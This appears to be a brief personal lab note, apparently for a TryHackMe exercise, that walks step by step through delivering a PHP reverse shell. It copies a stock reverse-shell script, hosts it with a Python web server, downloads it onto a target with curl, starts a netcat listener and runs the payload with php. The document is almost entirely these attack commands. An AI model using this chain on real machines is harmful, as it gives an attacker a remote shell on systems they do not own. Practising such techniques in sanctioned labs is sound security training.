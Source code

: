 first created a folder go to the path where you want to host files

	 cd /root/Desktop/THM

here copy the reverse shell


eg 

```
cp /usr/share/webshells/php/php-reverse-shell.php revshell.php
```

<mark style="background: #FF5582A6;">Dont forget to change the IP addr and Port no in the reverse shell</mark>


Now host a webserver in current path using below command


	python3 -m http.server 8000


Now you have hosted a server on you system on port 8000 and all files in foler /root/Desktop/THM 

are available to downlaod for other users in the network


we can use this to download the reverse shell on target machine using below command


```
curl "http://<my - IP>:8000/revshell.php" > /tmp/rev.php
```

will have to update the IP in above command




now start a netcat listener in your system  for the port number you had set in the php reverse shell code

```
nc -lnv 9999
```

Now on the client machine we can execute the reverse shell using below command 


```
php /tmp/rev.php
```





